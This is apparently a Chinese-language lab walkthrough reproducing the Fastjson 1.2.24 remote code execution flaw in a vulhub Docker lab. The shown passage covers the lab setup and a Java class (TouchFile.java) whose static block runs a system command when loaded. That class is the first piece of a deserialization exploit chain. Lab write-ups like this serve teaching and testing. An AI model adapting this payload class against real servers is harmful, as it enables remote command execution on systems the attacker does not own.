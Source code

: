 ****  
**0x3 环境搭建**  
  
  
靶机：Ubantu IP 192.168.103.161 （先要安装docker，然后下载vulhub） 启动vulhub里面的fastjson环境  
  
攻击机：kali   IP 192.168.103.129  
  
我们先利用Ubantu进入vulnhub靶场，进入/vulhub/fastjson/1.2.24-rce目录下，然后执行以下命令，看到done，那么就表示环境开启成功了。  
```
docker-compose up -d
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4UiciaykJA1oj8PBXl6YpqRx3tHbw0sGUSqYFztn2BX8HrnxpF8yM4qRg/640?wx_fmt=png&from=appmsg "")  
  
  
查看我们ubantu中docker开启环境的端口情况，端口是8090  
```
docker ps -a
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by44YHmgcR0dibC4ibqOsz2kZlc1hgNyaaYRiciaRyx7qcF34xXjYYxN9mgiaQ/640?wx_fmt=png&from=appmsg "")  
  
我们访问 ubantu的IP+端口，192.168.103.161:8090，得到如下的界面：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by459Wq5LFK112kJpcBgicSteicSqLUoXB0H7PXoArXxTFvtGlweCg9zK2g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x4 漏洞复现**  
  
### 1、远程创建文件  
  
一、这里要创建java代码文件，所以对环境比较严格，要保证java和javac的版本一致，且都是1.8的版本！！！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4gc4V12js8eLibcmNW58zBIzVP7Hu56NUN4rKSeOugGibZLcLkflCpSDA/640?wx_fmt=png&from=appmsg "")  
  
  
二、我们先在本地把java代码文件编译好，然后再上传到攻击机：kali下保存以下代码为TouchFile.java文件  
```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
 
public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/successFrank"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```  
  
